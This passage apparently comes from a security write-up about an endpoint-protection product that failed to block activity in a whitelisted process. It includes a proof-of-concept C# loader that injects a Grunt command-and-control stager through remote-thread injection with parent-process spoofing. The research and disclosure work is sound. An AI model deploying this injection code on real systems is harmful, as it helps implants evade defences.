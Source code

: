 Note that this specific behaviour of ignoring post-ex TTPs was happening only when injected with this exact technique against that specific process. Even if you managed to inject a beacon without causing detection in another unrelated process and tried to run things like mimikatz, your session would get killed.

This eventually confirmed our initial hypothesis that the process was indeed whitelisted. Conversations with the vendor and their technical team were extremely useful to understand that this was unintended behaviour and not one of the various injection techniques that simply would fly under the radar regardless.



## Proof Of Concept Code

The following snippet of code is intended as a Proof Of Concept that was used to confirm the issue

```cpp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace GruntInjection
{
    class Program
    {
        public const uint CreateSuspended = 0x00000004;
        public const uint DetachedProcess = 0x00000008;
        public const uint CreateNoWindow = 0x08000000;
        public const uint ExtendedStartupInfoPresent = 0x00080000;
        public const int ProcThreadAttributeParentProcess = 0x00020000;

        // Hardcoded Grunt Stager
        public static byte[] gruntStager = Convert.FromBase64String("[[shellcode here]]");

        static void Main(string[] args)
        {
            if (args.Length < 2)
            {
                Console.Error.WriteLine("Invalid number of args");
                return;
            }

            // Create new process
            PROCESS_INFORMATION pInfo = CreateTargetProcess(args[0], int.Parse(args[1]));

            // Allocate memory
            IntPtr allocatedRegion = VirtualAllocEx(pInfo.hProcess, IntPtr.Zero, (uint)gruntStager.Length, AllocationType.Commit | AllocationType.Reserve, MemoryProtection.ReadWrite);

            // Copy Grunt PIC to new process
            UIntPtr bytesWritten;
            WriteProcessMemory(pInfo.hProcess, allocatedRegion, gruntStager, (uint)gruntStager.Length, out bytesWritten);

            // Change memory region to RX
            MemoryProtection oldProtect;
            VirtualProtectEx(pInfo.hProcess, allocatedRegion, (uint)gruntStager.Length, MemoryProtection.ExecuteRead, out oldProtect);

            // Create the new thread
            CreateRemoteThread(pInfo.hProcess, IntPtr.Zero, 0, allocatedRegion, IntPtr.Zero, 0, IntPtr.Zero);
        }

```